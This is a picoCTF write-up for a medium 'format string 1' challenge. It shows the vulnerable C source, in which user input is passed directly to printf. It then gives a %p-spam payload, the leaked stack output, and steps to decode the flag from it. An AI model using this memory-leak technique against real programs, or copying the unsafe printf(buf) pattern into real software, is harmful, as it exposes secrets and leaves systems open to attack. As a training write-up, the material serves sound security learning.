

# format string 1
Challenge Description:
> Patrick and Sponge Bob were really happy with those orders you made for them, but now they're curious about the secret menu. Find it, and along the way, maybe you'll find something else of interest!

CTF: <b>picoCTF</b> (picoGym)<br>Difficulty: <b>Medium</b>

<b>[Jump to solution](#solution)</b>

## Hints
Here are the hints provided by the challenge author.
<details>
<summary>Hint 1</summary>

> https://lettieri.iet.unipi.it/hacking/format-strings.pdf
</details>
<details>
<summary>Hint 2</summary>

> Is this a 32-bit or 64-bit binary?
</details>

## Procedure
The program simply asks for your order and echoes it back to you. Given the challenge name, we can assume there is a FSV to be exploited.
```
$ ./format-string-1
Give me your order and I'll read it back to you:
hammyburg%p
Here's your order: hammyburg0x402118
Bye!
$ 
```

Looking at the source code, it looks like the program reads in the flag, a secret menu item 1, and a secret menu item 2 into the stack before prompting for your order. This also means you have to make 2 extra text files to run this locally (lol)
```c
int main() {
  char buf[1024];
  char secret1[64];
  char flag[64];
  char secret2[64];

  // Read in first secret menu item
  FILE *fd = fopen("secret-menu-item-1.txt", "r");
  if (fd == NULL){
    printf("'secret-menu-item-1.txt' file not found, aborting.\n");
    return 1;
  }
  fgets(secret1, 64, fd);
  // Read in the flag
  fd = fopen("flag.txt", "r");
  if (fd == NULL){
    printf("'flag.txt' file not found, aborting.\n");
    return 1;
  }
  fgets(flag, 64, fd);
  // Read in second secret menu item
  fd = fopen("secret-menu-item-2.txt", "r");
  if (fd == NULL){
    printf("'secret-menu-item-2.txt' file not found, aborting.\n");
    return 1;
  }
  fgets(secret2, 64, fd);

  printf("Give me your order and I'll read it back to you:\n");
  fflush(stdout);
  scanf("%1024s", buf);
  printf("Here's your order: ");
  printf(buf);
  printf("\n");
  fflush(stdout);

  printf("Bye!\n");
  fflush(stdout);

  return 0;
}
```

Well, if the secrets are just on the stack, maybe we can find them there...
```
$ ./format-string-1
Give me your order and I'll read it back to you:
%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
Here's your order: 0x402118(nil)0x7f7e1c416a00(nil)0x30709c800x205327594d4d41480x3220544552434553(nil)(nil)(nil)(nil)(nil)0x3055e40x202d206e697720750xa796d6d61680x7f7e1c4cd4d00x7ffdbdc239e00x7ffdbdc239f00x7f7e1c4db2110x20x7f7e1c4cdb100x205327594d4d41480x3120544552434553(nil)0x7f7e1c4cd1600x7f7e1c4cdb100x7f7e1c4cd1600x1000000000x7f7e1c4cd4d00x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x4011000x403e180x7f7e1c5090400x7f7e1c4e1f710x1(nil)0x7f7e1c4cf9080x7f7e1c4ea6600x7ffdbdc23d700x7ffdbdc23e600x10x7ffdbdc23ee80x4011f60x7f7e1c4e4cee(nil)0x403e180x7ffdbdc23ef8(nil)0x7f7e1c50a2e00x7f7e1c41bf100x7f7e1c4d50400x7f7e1c4fdee90x7ffdbdc23b000x22b4aaa76138(nil)
Bye!
$ 
```
It looks like some hexadecimal bytes that can be decoded into text are present in the output. Separating and lining up all the pointers (all prefixed by `0x`) makes it a bit clearer.
```
0x205327594d4d4148
0x3220544552434553
0x202d206e69772075
0xa796d6d6168
0x7f7e1c4cd4d0
0x7ffdbdc239e0
0x7ffdbdc239f0
0x7f7e1c4db211
0x2
0x7f7e1c4cdb10
0x205327594d4d4148
0x3120544552434553
0x7f7e1c4cd160
0x7f7e1c4cdb10
0x7f7e1c4cd160
0x100000000
0x7f7e1c4cd4d0
```
We can discard the pointers that look like stack address/non-ASCII bytes, and remove the `0x` from the rest. Note that one of the pointers begins with `0xa` and needs to be modified to `0x0a`.
> 

Due to the architecture of the machine, it looks like it stores the strings in chunks of 8 bytes, and reverses the order of each chunk. So we need to piece the contents back together:
```
HAMMY'S SECRET 2 u win - 
hammy HAMMY'S SECRET 1
```
This looks like the 2nd secret menu item, the flag, and the 1st secret menu item. I forgot I didn't format my local flag with the `hammy{}` wrapper, but the flag will be more obvious on the actual target.

## Solution
1. Spam the input with a ton of %p specifiers and copy the output.
2. Organize the output by placing each pointer on its own line (each pointer is prefixed by `0x`).
3. Discard all pointers that look like addresses and don't look like ASCII bytes.
4. Re-assemble the flag from the remaining pointers by removing the `0x` prefixes and converting them from hex bytes to text, and reversing each 8-character chunk of the text.

## Key Takeaways
It's an important basic CTF skill to be able to recognize ASCII bytes in a sea of hexadecimal gibberish. Generally long sequences of bytes between 0x41 and 0x7d as well as select bytes like 0x2f, 0x20, and 0xa tend to be indicators of ASCII bytes.